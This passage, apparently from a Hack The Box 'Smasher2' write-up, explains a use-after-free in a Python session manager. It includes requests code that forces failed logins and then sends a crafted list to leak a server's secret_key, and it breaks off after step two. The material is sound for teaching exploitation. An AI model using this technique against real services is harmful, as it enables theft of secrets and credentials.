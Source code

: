 Here is a detail description of the vulnerability:

* The POST request gets deserialized and stored in the variable ```data```. Inside that
  dictionary, ```data["data"]``` contains the reference to the dictionary that contains
  our user credentials.

* ```tmp_login``` gets a copy of ```data["data"]```, this does not increase the reference
  count because a new object gets created.

* Following the vulnerable codepath, in ```manager.check_login(data)```, the reference
  count for ```data["data"]``` gets decreased to zero. As we've seen in the assembly
  code, the return value ```is_logged``` contains a pointer (with a borrowed reference)
  to ```data["data"]``` but, since that object has been disposed by the garbage
  collector, ```is_logged[1]``` now contains a *dangling pointer*.

* A list that contains the *secret_key* is created and stored in the variable
  ```secret_token_info```. It is important to note that this happens **after**
  ```data["data"]``` has been freed.

* Finally, upon unsuccessful login, ```is_logged[1]``` is formatted into the string
  ```ret["result"]```, which will be returned to the user in the server response. This
  pointer will point to a previously freed memory area that can potentially be used by a
  new object at this point.

If we manage to force the allocation of the object ```secret_token_info``` into the space
that was used by ```data```, the list ```secret_token_info``` will be formatted into the
string and returned to the web client, leaking the value of the *secret_key*. Lets walk
through the exploit step by step:

1. In order to reach the vulnerable codepath we need to fail 10 login attempts.

```python
s = requests.Session()
s.headers.update({'Content-Type': 'application/json'})
s.get('http://wonderfulsessionmanager.smasher2.htb')  # Get a session cookie

data = {
    'action': 'auth',
    # send invalid credentials
    'data': {'username': 'matterbeam', 'password': 'matterbeam'},
}

for i in range(10):
    s.post('http://wonderfulsessionmanager.smasher2.htb/auth', data=json.dumps(data))
```

2. Attempt to login one more time. This time, instead of sending regular authentication
   credentials, send a list of the same format as ```secret_token_info```.

```python
data = {
    'action': 'auth',
    # send a list [str, str, int]
    'data': ['matterbeam', 'matterbeam', 123456789],
}

s.post('http://wonderfulsessionmanager.smasher2.htb', data=json.dumps(data))
```
